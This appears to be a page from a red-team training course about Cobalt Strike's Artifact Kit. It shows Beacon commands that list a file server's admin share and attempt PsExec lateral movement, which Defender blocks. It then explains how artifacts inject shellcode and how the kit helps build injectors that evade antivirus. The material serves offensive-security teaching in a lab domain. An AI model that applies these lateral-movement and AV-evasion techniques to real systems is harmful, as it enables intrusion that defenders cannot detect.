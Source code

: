 

Even though dropping files to disk has a bad reputation, there are instances where it's fairly unavoidable if we want to use certain tactics.  For instance, we can show that we have access to the File Server, but we can't PsExec to it because the default service binary payload is detected by Defender.

 beacon> ls \\fs.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/14/2022 15:44:51   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/14/2022 15:55:16   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/14/2022 15:59:23   ProgramData
          dir     09/14/2022 15:25:23   Recovery
          dir     09/14/2022 15:25:04   System Volume Information
          dir     09/14/2022 15:26:47   Users
          dir     09/14/2022 15:25:15   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/14/2022 16:00:25   DumpStack.log.tmp
 1gb      fil     09/14/2022 16:00:25   pagefile.sys

beacon> jump psexec64 fs.dev.cyberbotic.io smb
[-] Could not start service 633af16 on fs.dev.cyberbotic.io: 225

PS C:\Users\Attacker> net helpmsg 225

Operation did not complete successfully because the file contains a virus or potentially unwanted software.


If we copy the payload to our local desktop and check the associated log, we can see that the "file" was detected.



These Cobalt Strike "artifacts" are nothing more than shellcode runners that inject Beacon shellcode when executed.  As a rule of thumb, they inject the shellcode into themselves (e.g. using the VirtualAlloc & CreateThread pattern).  The service binary is the one exception, as it spawns a new process and injects the shellcode into that instead.  This is done so that when moving laterally with PsExec, the artifact can be deleted from disk immediately.

The Artifact Kit contains the source code for these artifacts and is designed to facilitate the development of sandbox-safe injectors.  The idea is to develop artifacts that inject Beacon shellcode in a way that cannot be emulated by AV engines.  There are several bypass techniques provided with the kit which you can modify, or you can implement entirely new ones yourself.  Where the Artifact Kit does not help is with making Beacon resilient to detection once it's running in memory (e.g. from memory scanners).

The kit can be found in C:\Tools\cobaltstrike\arsenal-kit\kits\artifact.
